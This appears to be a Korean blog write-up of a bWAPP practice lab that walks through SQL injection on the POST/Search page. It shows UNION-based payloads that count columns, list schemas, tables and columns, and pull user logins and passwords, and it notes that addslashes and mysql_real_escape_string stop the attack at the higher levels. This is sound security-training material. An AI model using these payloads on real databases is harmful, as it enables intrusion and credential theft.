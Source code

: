 ```yaml
---
layout: single
title: (bWAPP)SQL Injection POST/Search
categories: bwapp
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/sqlp-search-archive/sqlp-search/image.png)

- 게시글을 출력하는 기능이 존재
- 입력값은 POST 형식으로 전달됨

![그림 1-2](/assets/image/bwapp/injection/sqlp-search-archive/sqlp-search/image2.png)

- '(싱글 쿼터) 입력시 DBMS Error가 출력됨
- Proxy Tool을 사용하여 입력값을 전송 해도 되지만, (실제 취약점 진단시 Proxy Tool사용을 권장) 현 실습에서는 입력값을 통한 실습을 진행

```sql
' or 1=1--
```
- 위와 같이 일반적인 조건 연산자를 통한 Injection 취약점 유/무를 판단했다. 
- 정상적인 데이터 출력을 확인, 즉 조건연산자가 Injection 과 함께 사용 가능

```sql
' order by 8
```

![그림 1-3](/assets/image/bwapp/injection/sqlp-search-archive/sqlp-search/image3.png)

- order by 절을 사용하여 컬럼 개수를 파악
- 8개에서 오류가 출력됨을 확인하여 컬럼 개수는 7개로 추정

```sql
' and 1=2 union select 1,2,3,4,5,6,7--
```

- MySQL  의 경우 데이터 타입이 달라도 출력되므로 컬럼의 출력 포지션을 파악
![그림 1-4](/assets/image/bwapp/injection/sqlp-search-archive/sqlp-search/image4.png)
- 2,3,5,4 가 페이지상에 노출 됨

```sql
' and 1=2 union select 1,schema_name,3,4,5,6,7 from information_schema.schemata--
```

- 5개의 데이터베이스 존재 확인
![그림 1-5](/assets/image/bwapp/injection/sqlp-search-archive/sqlp-search/image5.png)

- 이후 순차적으로 테이블, 컬럼명들을 확인

```sql
' and 1=2 union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema='bWAPP'--
```

```sql
' and 1=2 union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_schema='bWAPP' and table_name='users'--
```

```sql
' and 1=2 union select 1,concat(id,0x3a,login),concat(password,0x3a,secret),4,admin,6,7 from bWAPP.users--
```

- 최종 적으로 id, login, password, secret 컬럼에 대한 데이터 추출을 시도

![그림 1-6](/assets/image/bwapp/injection/sqlp-search-archive/sqlp-search/image6.png)

- 성공적으로 데이터를 추출했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.